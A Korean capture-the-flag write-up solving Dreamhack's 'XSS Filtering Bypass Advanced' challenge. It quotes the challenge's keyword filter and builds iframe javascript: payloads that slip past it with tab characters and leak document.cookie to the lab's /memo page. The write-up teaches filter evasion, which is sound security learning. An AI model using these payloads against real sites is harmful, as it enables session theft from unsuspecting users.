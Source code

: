 ```yaml
---
title: "드림핵 lv.3 - XSS Filtering Bypass Advanced"
date: 2025-03-14 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, xss] 
description: 드림핵 XSS Filtering Bypass Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/434](https://dreamhack.io/wargame/challenges/434)
# 문제 설명
[Exercise: XSS Filtering Bypass](https://dreamhack.io/wargame/challenges/433)의 패치된 문제입니다.

---
# 문제 풀이
해당 문제는 이 전에 풀이했던 [XSS Filtering Bypass](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass/)와 거의 같은 문제이기 때문에 따로 분석하는 과정은 담지 않기로 하였다. 
## 전 문제와 다른 필터링
```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```
해당 문제의 코드에서 유일하게 이 전 문제와 다른 부분이다. <br />
문제 이름에도 나와있듯 지난 번에 풀이했던 문제에 필터링이 더해진 문제이다.
## 최종 풀이
```html
<script>document[location].href = "/memo?memo=" + document.cookie;</script>
```
우리가 최종적으로 실행해야 하는 코드는 이러하다.
### 필터링에 걸리는 키워드들
이 전에는 "script", "on", "javascript" 문자열이 발견될 때 공백으로 치환하는 필터링이여서 우회하기 굉장히 쉬웠는데 이제는 아예 사용할 수 없게 됐다. param 입력 값에 아예 해당 문자열들이 존재하면 안되는 상황이다.<br />

```python
["window", "self", "this", "document", "location", "(", ")", "&#"]
```
게다가 advanced_filter까지 새로 생기는 바람에 우회에 도움이 되는 많은 키워드들도 사용할 수가 없게 됐다.
### 우회법
> 참고로 /vuln 페이지에 접속해서 param 값을 계속 바꿔가면서 시도해보면 내가 작성한 스크립트가 필터되는지 아닌지 확인하는 것이 가능하다.

너무 막막한데 이럴 때일수록 차근차근 하나씩 우회법을 생각해내면 된다.<br />
#### iframe src 속성에 스키마 이용하기
```html
<iframe src="javas%09cript:alert`1`" />
```
우선 `script`와 `on`이 막혀있기 때문에 script 대신에 iframe을 사용했다. img같은 태그를 사용하면 이벤트 핸들러를 사용해야해서 곤란하다.<br />

iframe에는 src 속성에 `javascript:` 스키마를 이용해서 코드를 실행할 수 있는데 이때 javascript 또한 막혀있기 때문에 이를 우회하기 위해 중간의 탭(%09)을 넣어주었다.<br />

이렇게 하면 의도한 대로 alert 창이 뜨면서 스크립트가 먹힌다는 것을 알 수 있다.
#### document.location.href
```html
<iframe src="javas%09cript:docum%09ent.locatio%09n.href='/memo?memo='+docum%09ent.cookie" />
```
필터링 함수에서 입력 값 내부의 space 혹은 tab을 없애거나 감지하는 코드가 없기 때문에 필터링에 걸리는 문자열 사이사이에 탭을 적절히 넣어주어 필터링을 피할 수 있다.<br />

이런식으로 코드를 작성해서 `/vuln?param=`으로 값을 보내보면 우선 필터링에 걸리지 않는다는 것은 확인할 수 있다.<br />
### 공격 시도
이제 /flag 페이지에 접속해서 위 코드를 그대로 입력하여 보내고 /memo 페이지에 접속하면 아무일도 일어나지 않는다. 페이로드에 문제가 있다는 의미이다.
#### URL 인코딩 문제
아까 /vuln 페이지에서 시도했을 때에는 브라우저의 URL 인코딩 덕에 %09가 자동으로 \t으로 변환되기 때문에 문제가 없었다.<br />
하지만 /flag 페이지처럼 POST로 값을 보낼 때에는 당연하게도 URL이 아니기 때문에 %09가 탭으로 변환되지 않고 "%09"가 그대로 입력돼 작동하지 않은 것이다. 

```html
<iframe src="javas cript:docum ent.locatio n.href='/memo?memo='+docum ent.cookie" />
```
이렇게 중간에 "%09"가 아니라 진짜 탭을 넣어주어 페이로드를 작성해 제출하면 /memo 페이지에서 플래그 확인이 가능하다.<br />

참고로 본인은 메모장을 이용해서 탭을 입력했다. 브라우저에서 탭을 누르면 다음 input box로 포커싱이 가기 때문에 입력이 불가하다.
# 배운 것
URL 인코딩 개념에 대해서 알고는 있었지만 실제로 어떤 때에 이 개념이 필요한지 몰랐다. 이 문제를 통해서 조금이나마 배울 수 있었다.